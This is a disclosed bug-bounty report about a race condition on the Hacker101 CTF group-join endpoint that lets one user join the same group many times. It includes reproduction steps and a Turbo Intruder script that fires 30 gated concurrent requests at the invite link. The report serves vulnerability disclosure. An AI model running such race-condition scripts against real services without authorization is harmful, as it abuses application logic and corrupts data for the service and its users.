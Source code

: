 # Race condition in joining CTF group

## Report Details
- **Report ID**: 1540969
- **URL**: https://hackerone.com/reports/1540969
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-04-14T06:55:18.444Z
- **Disclosed**: 2023-01-08T12:02:43.899Z

## Reporter
- **Username**: zeyu2001
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**

A race condition in `https://ctf.hacker101.com/group/join` allows a user to join the same CTF group multiple times. 

The user will show up in the group member list multiple times, and affect the group statistics.

**Description:**

Interestingly a race condition in this feature was reported in #604534, but it seems like the implementation has changed slightly, allowing the same issue to occur.

### Steps To Reproduce

1. As the team leader, generate a shared invitation link. For this example the link was `https://ctf.hacker101.com/group/join?invite=fdb4ba75da6e8da41650369d24e3866f90384550f952474df194db8077bda8b0`.

2. Use Burp Suite to intercept this request and configure Turbo Intruder as follows:

```python
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=100,
                           requestsPerConnection=100,
                           pipeline=True
                           )

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    for i in range(30):
        engine.queue(target.req, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)

```

{F1692527}

3. Start the attack, and observe multiple requests succeeding with status code 200.

{F1692528}

We can verify from the invited user's screen that we have joined the same group multiple times.

{F1692529}

The user will also show up in the group multiple times from the group leader's screen.

{F1692530}

## Impact

Race condition allows a user to join the same group multiple times. This is more of a low-impact bug, but one that should be fixed nonetheless.

## Attachments
- Screenshot_2022-04-14_at_2.38.03_PM.png
- Screenshot_2022-04-14_at_2.38.21_PM.png
- Screenshot_2022-04-14_at_2.38.32_PM.png
- Screenshot_2022-04-14_at_2.41.52_PM.png
